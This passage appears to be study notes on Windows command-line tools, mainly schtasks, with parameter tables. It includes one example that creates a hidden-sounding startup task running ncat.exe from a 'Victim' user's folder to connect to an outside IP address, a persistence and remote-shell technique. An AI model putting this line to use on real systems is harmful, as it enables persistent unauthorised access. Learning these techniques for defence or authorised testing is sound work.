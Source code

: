 **Note:** It is important to be aware that the `WMIC` command-line utility is currently deprecated as of the current Windows version. As such, it is advised against relying upon using the utility in most situations. You can find further information regarding this change by following this [link](https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmic).

---
---

## Working With Scheduled Tasks

Scheduled tasks are an excellent way for administrators to ensure that tasks they want to run regularly happen

we will go over exactly how we can utilize the `schtasks` command to its fullest extent

`schtasks /query /v /FO LIST` displays all tasks in list format with detailed info

|Action|Parameter|Description|
|---|---|---|
|Query|_(none)_|Lists scheduled tasks (local or remote).|
|`/fo`|Format|Output in `TABLE`, `LIST`, or `CSV`.|
|`/v`|Verbose|Show advanced properties.|
|`/nh`|No Header|Remove column headers (works with `TABLE`/`CSV`).|
|`/s`|Remote Host|Specify remote host (`\\host`).|
|`/u`|User|Run with a different user’s permissions.|
|`/p`|Password|Password for the above user. (Works with `/s`).|

#### creating a new schedule task
```powershell


schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

# this will runs ncat.exe at system startup
```

|Action|Parameter|Description|
|---|---|---|
|Create|_(none)_|Create a new scheduled task.|
|`/sc`|Schedule|Type: `MINUTE`, `HOURLY`, `DAILY`, `ONSTART`, etc.|
|`/tn`|Task Name|Unique name for the task.|
|`/tr`|Task Run|Command/script to execute.|
|`/s`|Host|Remote host (like Query).|
|`/u`|User|User account to run under.|
|`/p`|Password|Password of that user.|
|`/mo`|Modifier|Adjust frequency (e.g., every 5 hours).|
|`/rl`|Run Level|Privileges: `LIMITED` (default) or `HIGHEST`.|
|`/z`|Delete on completion|Removes task after it runs once.|
